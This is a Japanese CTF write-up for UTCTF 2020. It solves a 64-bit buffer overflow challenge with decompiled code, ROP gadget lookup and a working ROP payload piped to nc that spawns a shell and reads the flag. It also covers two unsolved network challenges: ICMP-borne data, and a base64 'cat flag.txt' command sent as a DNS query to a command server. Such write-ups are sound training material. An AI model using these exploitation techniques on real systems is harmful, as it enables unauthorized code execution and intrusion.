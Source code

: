 ```yaml
---
title: "UTCTF 2020 Writeup"
date: 2020-03-09T22:00:00+09:00
lastmod: 2020-03-09T22:00:00+09:00
draft: false
keywords: []
description: ""
tags: ["CTF", "Reviewed"]
categories: ["CTF"]
author: ""
---
```

{{% right %}}
<a href="https://translate.google.com/translate?hl=en&sl=ja&tl=en&u=https%3A%2F%2Fcaptureamerica.github.io%2Fwriteups%2Fpost%2Futctf_2020%2F">
<img src="https://captureamerica.github.io/writeups/img/En.png" alt="English">
</a>
{{% /right %}}

URL: [https://utctf.live/challenges](https://utctf.live/challenges)
<br /><br />
えと、簡単なのしか解いてないので、テキトーです。

<br /><br />

<img src="https://captureamerica.github.io/writeups/img/utctf_2020_Score1.png" alt="utctf_2020_Score1.png">


<br /><br />
## [Pwn]: bof
- - -
### Challenge
> nc binary.utctf.live 9002

Attachment:

- pwnable (ELF 64bit)


<br />

### Solution
Ghidraでソースを確認します。

```C
undefined8 main(void)
{
  char local_78 [112];
  
  puts("I really like strings! Please give me a good one!");
  gets(local_78);
  puts("Thanks for the string");
  return 1;
}

void get_flag(int param_1)
{
  char *local_18;
  undefined8 local_10;
  
  if (param_1 == -0x21524111) {
    local_18 = "/bin/sh";
    local_10 = 0;
    execve("/bin/sh",&local_18,(char **)0x0);
  }
  return;
}
```

<br>
<pre>
captureamerica@kali:~/CTF/UTCTF_2020$ checksec ./pwnable 
[*] '/home/captureamerica/CTF/UTCTF_2020/pwnable'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
</pre>

タイトル通りBuffer Overflowのチャレンジで、get_flagを正しい引数で呼べたら/bin/shが呼ばれる、というやつです。

あと、これは64bitです。

<br>
pop rdi ; retを使います。
<pre>
captureamerica@kali:~/CTF/UTCTF_2020$ ROPgadget --binary pwnable | grep ret | grep ": pop"
0x000000000040068c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040068e : pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400690 : pop r14 ; pop r15 ; ret
0x0000000000400692 : pop r15 ; ret
0x0000000000400582 : pop rbp ; mov byte ptr [rip + 0x200abe], 1 ; ret
0x000000000040068b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040068f : pop rbp ; pop r14 ; pop r15 ; ret
0x0000000000400520 : pop rbp ; ret
0x000000000040028e : pop rbp ; retf 0x2d9e
0x0000000000400693 : pop rdi ; ret   <--- これ
0x0000000000400691 : pop rsi ; pop r15 ; ret
0x000000000040068d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
</pre>

<br>
get_flag()関数のアドレス
<pre>
gef➤  x get_flag
0x4005ea <get_flag>:	0xe5894855
</pre>

<br>
引数はよくある0xdeadbeefです。（0xffffffffを足しているんで、更に+1します）
<pre>
captureamerica@kali:~/CTF/UTCTF_2020$ python3
>>> hex(-0x21524111+0xffffffff)
'0xdeadbeee'
</pre>


<br>
以下でフラグゲット。
<pre>
captureamerica@kali:~/CTF/UTCTF_2020$ (python -c "print('a'*112+'a'*8+'\x93\x06\x40\x00\x00\x00\x00\x00'+'\xef\xbe\xad\xde\x00\x00\x00\x00'+'\xea\x05\x40\x00\x00\x00\x00\x00')" ; cat - ) | nc binary.utctf.live 9002
I really like strings! Please give me a good one!
Thanks for the string
id
uid=1000(stackoverflow) gid=1000(stackoverflow) groups=1000(stackoverflow)
ls
flag.txt
cat flag.txt
utflag{thanks_for_the_string_!!!!!!}
</pre>


<br />
Flag: `utflag{thanks_for_the_string_!!!!!!}`


<br /><br />
<br /><br />
さて、ここから下は、解きたかったけど解けなくて諦めたやつです。

## [Network]: Nittaku 3 Star Premium
- - -
### Challenge
> I found some weird data while monitoring my network, but I didn't catch it all. See if you can make sense of it.

Attachment:

- capture.pcap

<br />
### (Unsolved)
ICMP（ping）に大きなデータがついてます。だからチャレンジ名がNittaku 3 star (ピンポン玉) なんですね。なかなかネーミングセンスがいいです。

4つに分かれているので、ひとつにまとめて、base64デコードするとgzファイルになって中にflag.pngが入ってます。

ただし、壊れたgzファイルになっちゃうので、フラグが部分的にしか取れませんでした。。。


<br /><br />
<br /><br />
(2020/03/09 - Writeup見ました。)

フラグの続きは実際にPingをして取ってこないといけなかったようですね。ふーん。




<br /><br />
<br /><br />
## [Network]: Do Not Stop
- - -
### Challenge
> One of my servers was compromised, but I can't figure it out. See if you can solve it for me!

Attachment:

- capture.pcap

<br />
### (Unsolved)
DNSがbas64エンコードされています。肝心なフラグの中身はpcapの中には含まれていないようです。

DNSサーバが35.188.185.68なので、そこに対して`cat flag.txt`をbase64エンコードしたものをクエリーするとフラグが取れると思ったんですが、DNSサーバに繋がらなくてダメでした。。。

Discordでも、サーバに繋がらないよ〜って言っている人が何人かいたんですけど、Adminの人はサーバ動いているよ、って言っているし。


<pre>
captureamerica@kali:~$ dig -t TXT Y2F0IGZsYWcudHh0Cg== @35.188.185.68

; <<>> DiG 9.11.5-P4-5.1+b1-Debian <<>> -t TXT Y2F0IGZsYWcudHh0Cg== @35.188.185.68
;; global options: +cmd
;; connection timed out; no servers could be reached
</pre>


<br /><br />
<br /><br />
(2020/03/09 - Writeup見ました。)

なんか、クエリーを投げるDNSサーバは35.188.185.68じゃなかったみたいです。。。




<br /><br />
<br /><br />
- - -
<br /><br />
<br /><br />

